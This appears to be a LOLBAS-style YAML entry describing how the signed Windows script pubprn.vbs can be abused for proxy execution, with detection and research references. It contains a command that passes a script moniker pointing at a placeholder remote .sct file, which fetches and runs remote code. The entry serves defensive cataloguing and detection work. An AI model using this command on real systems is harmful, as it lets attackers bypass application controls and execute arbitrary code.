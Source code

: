 ```yaml
---
Name: Pubprn.vbs
Description: Proxy execution with Pubprn.vbs
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: pubprn.vbs 127.0.0.1 script:https://domain.com/folder/file.sct
    Description: Set the 2nd variable with a Script COM moniker to perform Windows Script Host (WSH) Injection
    Usecase: Proxy execution
    Category: Execute
    Privileges: User
    MitreID: T1216.001
    OperatingSystem: Windows 10
Full_Path:
  - Path: C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs
  - Path: C:\Windows\SysWOW64\Printing_Admin_Scripts\en-US\pubprn.vbs
Code_Sample:
  - Code: https://raw.githubusercontent.com/LOLBAS-Project/LOLBAS/master/OSScripts/Payload/Pubprn_calc.sct
Detection:
  - BlockRule: https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
Resources:
  - Link: https://enigma0x3.net/2017/08/03/wsh-injection-a-case-study/
  - Link: https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology
  - Link: https://github.com/enigma0x3/windows-operating-system-archaeology
Acknowledgement:
  - Person: Matt Nelson
    Handle: '@enigma0x3'
---
```

